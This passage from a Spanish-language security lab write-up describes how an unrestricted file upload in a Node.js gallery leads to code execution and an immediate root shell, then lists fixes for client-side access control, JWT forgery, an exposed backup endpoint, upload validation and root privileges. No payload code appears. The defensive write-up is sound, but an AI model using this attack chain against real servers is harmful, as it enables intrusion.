 * El enlace "Ver original" de la galería pasa por aquí. Antes de devolver el
 * archivo, el visor lo carga como módulo de Node para leer sus metadatos, sin
 * comprobar ni la extensión ni el contenido. Una foto `.js` subida con el
 * `Content-Type` falsificado se ejecuta dentro del proceso del servidor cada vez
 * que un visitante hace clic. La ruta es pública: no hace falta estar
 * autenticado para activarla, basta con abrir la galería y hacer clic.
 */
```

Pinchamos en "Ver Original" (siendo cualquier usuario)


y obtenemos nuestra **shell root:**



Ya que el proceso node.js no droppea privilegios el acceso obtenido mediante la ejecución de código arbitrario hereda automáticamente los privilegios del proceso que ejecuta el código vulnerable — en este caso, el servidor  Node.js /Express. Al comprobar la identidad del usuario tras obtener la shell (`whoami`), confirmamos que el proceso se ejecutaba como `root`, sin ningún tipo de reducción de privilegios. Esto significa que no fue necesaria ninguna técnica adicional de escalada: la ejecución remota de código resultó directamente en compromiso total del sistema (RCE → root inmediato).

---
<h1 align="center">5. Prevención y Mitigación</h1>

- **1. Control de Acceso Client-Side (/admin.html):**
  La validación de usuario, siempre debe realizarse del lado del servidor y nunca confiarse a la lógica del navegador, mucho menos entregando el codigo HTML antes de una validación, por lo que sí el cliente no tiene los permisos necesarios, el servidor debera devolver un error del tipo *401 Unauthorized* o del tipo *403 Forbidden*.

- **2. Escalada de Privilegios via JWT:**
  El servidor debe **validar la firma del token en cada petición**, rechazando cada token cuya firma no coincida con el payload recibido, además del rol de usuario, este nunca debería determinarse únicamente con lo recibido a través del cliente/navegador, si no que a su vez también compararlo con lo que se tiene en la base de datos, también se recomienda usar mecanismos de expiración de tokens cortos.

- **3. Divulgación de información sensible (endpoint de /backup):**
  Funcionalidades criticas como la generación de archivos sensibles, en este caso el backup entero del sistema, no deberían estar expuestos sin métodos de validación firmes, por ejemplo:

	- Restringir el acceso mediante métodos de  autenticación multifactor ó combinaciones adicionales, dado su alto impacto.
	- Evitar la descarga de archivos sensibles en un solo paquete, mucho menos del lado del usuario promedio, tareas como estas deben estar aisladas solo en un entorno interno.
	- Cifrar el contenido sensible o backups, conteniendo las contraseñas en lugares seguros, accesible solo por la administración.

- **4. Carga de archivos sin restricciones (CWE-434):**
  La validación de archivos nunca debería ser unicamente confiando en lo que el cliente declare (**Content-type**):

	- Verificar la firma binaria real (magic byte), usando librerías especializadas, por ejemplo, **file-type** en Node.js.
	- Restringir las extensiones permitidas mediante  "listas blancas", restringiendo los tipos de extensiones que el usuario pueda subir independientemente de lo que declare.
	- Almacenar los archivos fuera del sistema webroot, incluso usando hostings de imagenes, evitando la ejecución de estas en el propio entorno

- **5. Ejecución de código arbitrario (CWE-94):**
  Bajo ninguna circunstancia debería usarse del lado del cliente, mecanismos como, require(), eval() ó vm.runInNewContext(), sí se necesitan leer metadatos, debe ser mediante librerías especificas como por ejemplo, **exif-reader** para imágenes.

- **6. Privilegios de Proceso (root):**
  El proceso de la aplicación nunca debería correrse mediante root, se puede crear un usuario con privilegios mínimos de ejecución (**principio de mínimo privilegio**). Esto no evita la ejecución de un RCE en si, pero un usuario con privilegios mínimos no comprometería el sistema completo, así se limita bastante el riesgo.
